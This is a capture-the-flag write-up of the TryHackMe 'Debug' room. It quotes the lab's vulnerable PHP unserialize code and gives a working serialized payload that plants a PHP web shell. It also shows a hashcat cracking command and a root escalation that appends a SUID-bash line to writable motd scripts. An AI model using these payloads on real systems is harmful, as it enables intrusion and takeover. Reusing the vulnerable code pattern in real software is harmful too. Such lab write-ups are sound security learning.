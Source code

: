 # Debug

https://tryhackme.com/room/debug

A relatively simple room, with a php deserialization foot hold and then a quirk of ubuntu writable files to get to root.

1. Recon revealed 22 and 80. I ran nikto against 80, which revealed a backup folder.
2. The backup folder included a index.html.bak (which was the apache default page I saw when browsing to /) and an index.php.bak
3. Within the php backup, was a deserialization exploit:

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


?>
```

Notable, that $debug bit near the end.

4. To exploit this, I created the following payload:

`O:10:"FormSubmit":2:{s:9:"form_file";s:8:"test.php";s:7:"message";s:26:"<?php+system($_GET[1]);+?>";}`

And triggered it by navigating to `/index.php?debug=<payload>`. Afterwards, browsing to `/test.php?1=ls` showed a file listing.

5. In the web folder was an .htaccess file. I opened this and got a username of james and a hashed password. Breaking the hash with `hashcat.exe -m 1600 hash rockyou.txt` got me a password quickly, which when tested against SSH worked.

6. On the box, in james home folder, was the user flag and a message:

```
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it?

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :)

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
```

7. There are various ways to set a welcome message, so to check what I could 'modify', I ran `find /etc/ -writable`. This revealed all the files under `/etc/update-motd.d` were writable:

```
total 44
drwxr-xr-x   2 root root   4096 Mar 10 18:38 .
drwxr-xr-x 134 root root  12288 Mar 10 20:08 ..
-rwxrwxr-x   1 root james  1220 Mar 10 18:32 00-header
-rwxrwxr-x   1 root james     0 Mar 10 18:38 00-header.save
-rwxrwxr-x   1 root james  1157 Jun 14  2016 10-help-text
-rwxrwxr-x   1 root james    97 Dec  7  2018 90-updates-available
-rwxrwxr-x   1 root james   299 Jul 22  2016 91-release-upgrade
-rwxrwxr-x   1 root james   142 Dec  7  2018 98-fsck-at-reboot
-rwxrwxr-x   1 root james   144 Dec  7  2018 98-reboot-required
-rwxrwxr-x   1 root james   604 Nov  5  2017 99-esm
```

8. On ubuntu, these are all basically scripts that are run by root: http://manpages.ubuntu.com/manpages/bionic/man5/update-motd.5.html. To exploit this, I ran the following: `echo "cp /bin/bash /home/james/bash && chmod u+s /home/james/bash" >> 00-header`

9. Logging back out and in resulted in bash sitting in james home folder, with the suid bit set, and got to root via `./bash -p`. The root flag was in the normal place :)
